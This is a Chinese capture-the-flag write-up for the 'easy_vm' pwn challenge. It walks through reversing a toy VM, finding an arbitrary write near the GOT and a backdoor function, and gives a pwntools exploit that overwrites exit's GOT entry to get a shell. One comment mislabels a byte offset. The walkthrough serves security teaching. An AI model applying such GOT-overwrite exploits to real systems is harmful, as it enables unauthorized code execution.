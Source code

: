 ```yaml
---
sort: 2
---
```


# easy_vm

## 0x00 题面

该题为虚拟机类型的 pwn 题, [题目链接](file:///D:/ctf/pwn/easy_vm_ac77fc3065048854ccc391daccecf7a9)

## 0x01 思路

拿到 PWN 题首先丢到 linux 环境中检查一下程序保护情况, 文件类型以及执行效果

- 检查文件类型

```
file pwn
```

![](vx_images/4435825165493.png)

文件是 64 位

- 检查程序保护情况

```
checksec --file=pwn
```

![](vx_images/4938926146734.png)

程序开启了 Canary, NX 保护

- 最后执行一下:

  ![](vx_images/156728169174.png)

功能有点不明所以, 所以我们直接用 IDA Pro 反编译查看, 从`main`函数反编译后如下:

![](vx_images/4750132164310.png)

跟进`sub_4007F6`查看:

![](vx_images/3973133157856.png)

`sub_4007F6`的作用就是读取我们的输入, 返回到`main`函数后, 会对我们的输入进行逐位判断, 然后通过偏移量`dword_6011A0`对相应地址进行读写操作:

- `\x00`: 偏移量自加 1
- `\x01`: 偏移量自减 1
- `\x02`: 打印地址`dword_6011A0 + 6295712`处的字符到控制台中
- `\x03`: 从控制台中读取字符, 写入地址`dword_6011A0 + 6295712`中
- `\x04`: 退出程序
- 其他: 打印错误信息, 退出

其中`6295712`的 16 进制为`0x6010A0`, 在 got 表附件:

![](vx_images/1886747141520.png)

显然, 我们可以通过控制偏移量的大小, 对程序的地址空间进行任意读写, 于是一个思路就是修改 got 表中某些函数的地址, 达成任意地址跳转. 那么要跳转到哪个地址呢?

我们再次对程序中的各个函数进行反编译, 发现`sub_4007E5`是个后门函数, 可以直接运行 shell:

![](vx_images/5626644150990.png)

那么我们不妨用以下步骤进行 getshell:

1. 发送若干个`\x01`, 让`dword_6011A0 + 0x6010A0`的值为`got`表中`exit`函数的地址
2. 发送`\x03`, 触发写入函数
3. 发送后门地址, 让程序覆盖`got`表中的`exit`地址
4. 发送`\x04`, 触发`exit(0)`, 但是此时`exit`在`got`表中的地址被我们修改了, 所以我们此时会获取到 shell.

需要注意一个细节, 程序中向地址中写入时, 一次只能写入一个字符, 所以我们要将地址分三次写入, exp 如下:

```python
from pwn import *

offset = 0x6010a0 - 0x601058  # 需要多少偏移量才能到达exit的got表地址
backdoor_addr = 0x4007e5      # 后门地址

p = process('./pwn')
payload = '\x01'*(offset-2)   # 注意要从高地址到低地址, 分3次写入地址, 所以这里要将偏移量减2
payload += '\x03' + '\x01'    # 等待读入数据覆盖0x6010a0-offset+2
payload += '\x03' + '\x01'    # 等待读入数据覆盖0x6010a0-offset+1
payload += '\x03' + '\x01'    # 等待读入数据覆盖0x6010a0-offset
payload += '\x04'             # 触发exit()函数 getshell

p.sendlineafter('> ', payload)
p.send('\x40')                # 覆盖0x6010a0-offset+2为0x40
p.send('\x07')                # 覆盖0x6010a0-offset+1为0x07
p.send('\xe5')                # 覆盖0x6010a0-offset+1为0xe5
p.interactive()
```

![](vx_images/1699824154024.png)
